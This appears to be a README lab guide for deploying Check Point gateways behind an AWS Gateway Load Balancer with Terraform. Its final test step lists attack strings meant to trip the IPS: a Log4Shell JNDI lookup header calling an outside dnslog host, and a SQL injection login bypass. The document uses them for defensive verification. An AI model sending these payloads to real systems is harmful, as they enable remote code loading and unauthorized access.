

# Deploy GWLB load-balanced Check Point Security Gateways into centralized Security VPC

## Goals

### Architecture

Ilustration picture:


## Steps

### 1. AWS Cloud Shell
Open [AWS CloudShell](https://eu-central-1.console.aws.amazon.com/cloudshell/home?region=eu-central-1#) in your region.

### 2. Make sure Terraform is available
```bash
git clone https://github.com/tfutils/tfenv.git ~/.tfenv
mkdir ~/bin
ln -s ~/.tfenv/bin/* ~/bin/
tfenv install
tfenv use
terraform -version
```

### 3. Clone repo
```bash
git clone https://github.com/mkol5222/tf-security-vpc.git ~/tf-security-vpc

cd ~/tf-security-vpc
```

### 4. Build test environment VPC

Review inputs
```
cd ~/tf-security-vpc/01-test-env/
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 5. Place instances to TGW attachment subnets
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* and *region*
* *subnets_ids_list*
```
cd ~/tf-security-vpc/02-instances
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 6. Deploy GWLB and Check Point Security Gateways in ASG
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* 
* *region*
* *chkp_gw_subnet_ids_list*
* *chkp_gwlbe_subnets_ids_list*
```
cd ~/tf-security-vpc/03-chkp-gwlb
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 7. Check Point Management side
Learn CME provisioning command
```
(cd ~/tf-security-vpc/03-chkp-gwlb/; terraform output -json | jq -r '."cme-command".value')
```

Make sure CME is installed and login to CHKP Management server to run this command. Command looks like:
```
autoprov_cfg -f init AWS -ak AKIAZTAmodified -sk /MNFoeHQdbTBVnammodified -mn chkp-mgmt -tn chkp-gwlb-template -cn gwlb-controller -po Standard -otp Vpn12modified -r eu-central-1 -ver R80.40
```

Enable additional blades -  e.g. Identity Awareness and IPS:
```
autoprov_cfg set template -tn chkp-gwlb-template -ips
autoprov_cfg set template -tn chkp-gwlb-template -ia
```

### 8. Monitor CME provisioning on Management Server

Open SmartConsole and monitor Gateways section for ASG instances to appear and to be provisioned with policy.

Monitor CME progress in CME log on CHKP Management:
```
 tail -f /var/log/CPcme/cme.log
```

### 9. Route traffic through GWLBe

In [route tables for TGW attachment subnets](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=tgw), route via GWLBe instead of NAT Gateway. Route to GWLBe in same AZ.

In [route tables for NAT Gateways](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=chkp-nat), route back to TGW attachment subnet in same region via GWLBe in same region.

### 10. Test traffic from instances in TGW attachment subnet

Connect to instances using Session Manager and initiate traffic to Internet (*curl*, *ping*, etc.). Monitor Check Point logs.

Keep connecting and report egress IP. Run on instance in TGW attachment subnet.
```
while true; do I=$(curl -s ip.iol.cz/ip/); echo $I; done
```

Other example:
```
while true; do date; ping -c 3 1.1.1.1; echo; done
```

Cause IPS incidents (should be prevented/catched by IPS if configured):
```
curl http://www.cpcheckme.com/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}' -v

curl -k 'http://www.cpcheckme.com/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details'
```

## Various materials

* Check Point Cloud Management [Admin Guide](https://sc1.checkpoint.com/documents/IaaS/WebAdminGuides/EN/CP_CME/Content/Topics-CME/Overview.htm)
* Check Point CloudGuard Controller [Admin Guide](https://sc1.checkpoint.com/documents/R81.10/WebAdminGuides/EN/CP_R81.10_CloudGuard_Controller_AdminGuide/Topics-CGRDG/Introduction.htm)
* Check Point CGNS TerraForm modules [GitHub repo](https://github.com/CheckPointSW/CloudGuardIaaS/tree/master/terraform/aws)
* CGNS AWS Gateway LoadBalancer - Deep Dive Webinar [materials](https://community.checkpoint.com/t5/Cloud-Network-Security/AWS-Gateway-LoadBalancer-Deep-Dive-Webinar/td-p/117827) and [diagram](https://community.checkpoint.com/t5/Cloud-Network-Security/The-Workshop-AWS-Gateway-LoadBalancer-amp-CloudGuard-Network/td-p/145715)
* AWS workshop on CHKP CGNS with GWLB with [traffic flows](https://checkpoint.awsworkshop.io/02handsonflows/3_centegress.html)
